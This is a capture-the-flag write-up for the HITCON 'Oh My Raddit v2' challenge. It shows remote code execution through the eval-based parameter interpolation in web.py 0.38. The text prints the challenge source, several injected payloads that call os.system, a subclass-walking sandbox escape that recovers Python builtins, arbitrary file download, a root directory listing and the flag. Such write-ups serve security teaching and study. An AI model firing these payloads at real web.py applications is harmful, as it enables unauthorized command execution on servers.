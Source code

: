 # Oh My Raddit v2
Use same method as "Oh My Raddit" to get `flag` is forbiddened.

By hint, `Give me SHELL!!!`, obviously we can only use RCE to run some binary to get it.

According to we already know this website use `web.py`, let's use same method to get `requirement.txt`, then we know `web.py==0.38`.

Then if you google some RCE vulnerbility of web.py, you'll find this post: [Remote Code Execution in Web.py framework](https://securityetalii.es/2014/11/08/remote-code-execution-in-web-py-framework/)

```python
def reparam(string_, dictionary):
    """
    Takes a string and a dictionary and interpolates the string
    using values from the dictionary. Returns an `SQLQuery` for the result.
 
        >>> reparam("s = $s", dict(s=True))
        <sql: "s = 't'">
        >>> reparam("s IN $s", dict(s=[1, 2]))
        <sql: 's IN (1, 2)'>
    """
    dictionary = dictionary.copy() # eval mucks with it
    vals = []
    result = []
    for live, chunk in _interpolate(string_):
        if live:
            v = eval(chunk, dictionary)
            result.append(sqlquote(v))
        else:
            result.append(chunk)
    return SQLQuery.join(result, '')
```

With thin `eval`, make RCE become possible.

The post said: `The entry points to reparam() are functions _where(), query(), and gen_clause()`

Let's see part source of `web.py`:
```python
    def select(self, tables, vars=None, what='*', where=None, order=None, group=None,
               limit=None, offset=None, _test=False):
        """
        Selects `what` from `tables` with clauses `where`, `order`,
        `group`, `limit`, and `offset`. Uses vars to interpolate.
        Otherwise, each clause can be a SQLQuery.
            >>> db = DB(None, {})
            >>> db.select('foo', _test=True)
            <sql: 'SELECT * FROM foo'>
            >>> db.select(['foo', 'bar'], where="foo.bar_id = bar.id", limit=5, _test=True)
            <sql: 'SELECT * FROM foo, bar WHERE foo.bar_id = bar.id LIMIT 5'>
            >>> db.select('foo', where={'id': 5}, _test=True)
            <sql: 'SELECT * FROM foo WHERE id = 5'>
        """
        if vars is None: vars = {}
        sql_clauses = self.sql_clauses(what, tables, where, group, order, limit, offset)
        clauses = [self.gen_clause(sql, val, vars) for sql, val in sql_clauses if val is not None]
        qout = SQLQuery.join(clauses)
        if _test: return qout
        return self.query(qout, processed=True)
```

Compare to source of `Oh My Raddit v2`, `Web.py` framework's [`gen_clause()`](https://github.com/webpy/webpy/blob/c86237676eb602e90496638b2af51f6115ef96b2/web/db.py) function will trigger by [`db.select()`](http://webpy.org/cookbook/select) in `get_posts()` of `Oh My Raddit v2`.

```python
# coding: UTF-8
import os
import web
import urllib
import urlparse
from Crypto.Cipher import DES

web.config.debug = False
ENCRPYTION_KEY = 'megnnaro'


urls = (
    '/', 'index'
)
app = web.application(urls, globals())
db = web.database(dbn='sqlite', db='db.db')


def encrypt(s):
    length = DES.block_size - (len(s) % DES.block_size)
    s = s + chr(length)*length

    cipher = DES.new(ENCRPYTION_KEY, DES.MODE_ECB)
    return cipher.encrypt(s).encode('hex')

def decrypt(s):
    try:
        data = s.decode('hex')
        cipher = DES.new(ENCRPYTION_KEY, DES.MODE_ECB)

        data = cipher.decrypt(data)
        data = data[:-ord(data[-1])]
        return dict(urlparse.parse_qsl(data))
    except Exception as e:
        print e.message
        return {}

def get_posts(limit=None):
    records = []
    for i in db.select('posts', limit=limit, order='ups desc'):
        tmp = {
            'm': 'r', 
            't': i.title.encode('utf-8', 'ignore'), 
            'u': i.id, 
        } 
        tmp['param'] = encrypt(urllib.urlencode(tmp))
        tmp['ups'] = i.ups
        if i.file:
            tmp['file'] = encrypt(urllib.urlencode({'m': 'd', 'f': i.file}))
        else:
            tmp['file'] = ''

        records.append( tmp )
    return records

def get_urls():
    urls = []
    for i in [10, 100, 1000]:
        data = {
            'm': 'p', 
            'l': i
        }
        urls.append( encrypt(urllib.urlencode(data)) )
    return urls

class index:
    def GET(self):
        s = web.input().get('s')
        if not s:
            return web.template.frender('templates/index.html')(get_posts(), get_urls())
        else:
            s = decrypt(s)
            method = s.get('m', '')
            if method and method not in list('rdp'):
                return 'param error'
            if method == 'r':
                uid = s.get('u')
                record = db.select('posts', where='id=$id', vars={'id': uid}).first()
                if record:
                    raise web.seeother(record.url)
                else:
                    return 'not found'
            elif method == 'd':
                file = s.get('f')
                if not os.path.exists(file):
                    return 'not found'
                name = os.path.basename(file)
                web.header('Content-Disposition', 'attachment; filename=%s' % name)
                web.header('Content-Type', 'application/pdf')
                with open(file, 'rb') as fp:
                    data = fp.read()
                return data
            elif method == 'p':
                limit = s.get('l')
                return web.template.frender('templates/index.html')(get_posts(limit), get_urls())
            else:
                return web.template.frender('templates/index.html')(get_posts(), get_urls())


if __name__ == "__main__":
    app.run()
```

Use `{'m':'p','l':'$__import__("os").system("ls > /tmp/ls.txt")'}`, method `p` will goto last condition in function `GET()` in class `index`, use param `l` to send limit(payload) to `get_posts()` and then let `db.select()` eval the payload.

However, it failed. If we going deep into it, you will find this fail with this line:
```
< dictionary = dictionary.copy() #eval mucks with it
> disable builtins to avoid risk for remote code exection.
```

Fortunately, the post gives us another method to bypass this hotfix: 
`
{'m':'p','l':'${(lambda getthem=([x for x in ().__class__.__base__.__subclasses__() if x.__name__=="catch_warnings"][0]()._module.__builtins__):getthem["__import__"]("os").system("ls -al / > /tmp/1.txt"))()}'}
`

Cuz we can not get the result message directly, we need to print them into file, then download the file: `{'m':'d','f':'/tmp/1.txt'}`.

```
total 104
drwxr-xr-x  23 root root  4096 Oct 16 08:18 .
drwxr-xr-x  23 root root  4096 Oct 16 08:18 ..
drwxr-xr-x   2 root root  4096 Sep 12 15:59 bin
drwxr-xr-x   3 root root  4096 Oct 10 06:46 boot
drwxr-xr-x  15 root root  2980 Oct  8 18:13 dev
drwxr-xr-x  91 root root  4096 Oct 11 16:05 etc
-r--------   1 root root    47 Oct 16 08:15 flag
drwxr-xr-x   4 root root  4096 Oct 11 16:02 home
lrwxrwxrwx   1 root root    31 Oct 10 06:46 initrd.img -> boot/initrd.img-4.15.0-1023-aws
lrwxrwxrwx   1 root root    31 Sep 12 16:16 initrd.img.old -> boot/initrd.img-4.15.0-1021-aws
drwxr-xr-x  20 root root  4096 Oct 11 15:27 lib
drwxr-xr-x   2 root root  4096 Sep 12 15:56 lib64
drwx------   2 root root 16384 Sep 12 16:10 lost+found
drwxr-xr-x   2 root root  4096 Sep 12 15:55 media
drwxr-xr-x   2 root root  4096 Sep 12 15:55 mnt
drwxr-xr-x   2 root root  4096 Sep 12 15:55 opt
dr-xr-xr-x 127 root root     0 Oct  8 18:13 proc
-rwsr-sr-x   1 root root  8568 Oct 16 08:18 read_flag
drwx------   4 root root  4096 Oct 16 08:18 root
drwxr-xr-x  26 root root  1000 Oct 22 06:21 run
drwxr-xr-x   2 root root  4096 Oct 10 06:46 sbin
drwxr-xr-x   5 root root  4096 Oct  8 18:13 snap
drwxr-xr-x   2 root root  4096 Sep 12 15:55 srv
dr-xr-xr-x  13 root root     0 Oct 16 08:18 sys
drwxrwxrwt  12 root root  4096 Oct 22 09:33 tmp
drwxr-xr-x  10 root root  4096 Sep 12 15:55 usr
drwxr-xr-x  14 root root  4096 Oct 11 15:58 var
lrwxrwxrwx   1 root root    28 Oct 10 06:46 vmlinuz -> boot/vmlinuz-4.15.0-1023-aws
lrwxrwxrwx   1 root root    28 Sep 12 16:16 vmlinuz.old -> boot/vmlinuz-4.15.0-1021-aws
```

Now we get that there's a binary name `read_flag`, exec it and put result into output file: `{'m':'p','l':'${(lambda getthem=([x for x in ().__class__.__base__.__subclasses__() if x.__name__=="catch_warnings"][0]()._module.__builtins__):getthem["__import__"]("os").system("/read_flag / > /tmp/readflag.txt"))()}'}`

Then download the output: `{'m':'d','f':'/tmp/readflag.txt'}`

Flag is: `hitcon{Fr0m_SQL_Injecti0n_t0_Shell_1s_C00L!!!}`